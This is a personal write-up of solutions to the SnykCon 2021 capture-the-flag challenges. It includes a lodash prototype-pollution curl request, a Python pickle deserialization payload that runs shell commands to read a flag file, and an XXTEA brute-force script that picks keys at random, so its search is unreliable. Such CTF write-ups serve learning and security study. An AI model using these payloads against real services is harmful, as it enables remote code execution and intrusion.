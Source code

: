 # SnykCon 2021
I participated in SnykCon 2021 on Oct 5th, 2021 and had a lot of fun! I earned 960 points and placed 140th out of 548 teams.

There were 23 total challenges and I was only able to solve a few for my first go-around. Below are my solutions (or attempts!) for the challenges

## Robert Louis Stevenson - :white_check_mark:
We are given a `docker.tar` image. Open the .tar with a zip manager and navigate to :
```
/./b3b0b5528b213a9d35315784c9907fdeb5d8bf89a0bb012ee63546b3a1c2e10b/layer.tar/ak/pp/tv/bc/22/flag
```

## Invisible Ink - :white_check_mark:
We have the source code for the challenge and lodash 4.17.4 is vulnerable to lodash merge pollution as seen [here](https://github.com/kimmobrunfeldt/lodash-merge-pollution-example)

```bash
curl --location --request POST 'http://35.211.53.53:8000/echo' \
--header 'Content-Type: application/json' \
--data-raw '{"constructor": {"prototype": {"flag": true}}}'
```

## Russian Doll - :x:
Using a caesar cipher from this website shows the key is 11 and the message is :

```bash
The flag is SDZcVdXvZHhKkxopTPYbTvmxTHwFZyyvnutAwsjijXwDqeOg XXTEA encrypted. Password hint: xxxx.
```

I attempted to use python to generate every possible combination of a 4 digit passcode to decrypt however none of them worked.

```python
import xxtea
import random

chrs = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0129456789' # Change your required characters here
n = 4 # Change your word length here

num_possibilities = len(chrs) ** n
print('Number of Possibilities: {}'.format(num_possibilities))

encrypted = b"SDZcVdXvZHhKkxopTPYbTvmxTHwFZyyvnutAwsjijXwDqeOg"

for i in range(num_possibilities):
    key = ''.join(random.choice(chrs) for _ in range(n))
    d = xxtea.decrypt(encrypted, key)

    print("Key: {} | Output: {}".format(key, d))

    if d != b'':
        break;
```

## Electronbuzz - :white_check_mark:
I downloaded the MacOS version of the application and then found [this article](https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37) on how to get the source code of the app. Once I downloaded the app, I ran the following commands:

```bash
$ cd Documents && mkdir src && cd src
$ npm install -g asar
$ asar extract /Volumes/electronbuzz\ 1.0.0/electronbuzz.app/Contents/Resources/app.asar .
$ code .
```

Inside of the source code, the `challenge.yml` file has a variable named `flags` that contains the flag.

## Sauerkraut - :white_check_mark:

We are presented with a textbox to enter code and get an output. After several trial and errors, I saw errors for base64 and MARK. This lead me to Python's pickle method (which makes sense with the challenge name) and an exploit found [here](https://blog.nelhage.com/2011/03/exploiting-pickle/). I modified the code to instead use `subprocess.check_output` like so:

```python
import pickle
import subprocess
import base64
class RCE:
    def __reduce__(self):
        import os
        return (subprocess.check_output,(['cat', 'flag'],), )

print(base64.b64encode(pickle.dumps(RCE())))

# gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu
```

First I ran `['ls', '-la']` and saw the flag file, and then used `['cat', 'flag']` Once you paste the above base64 string into the textbox you get the flag.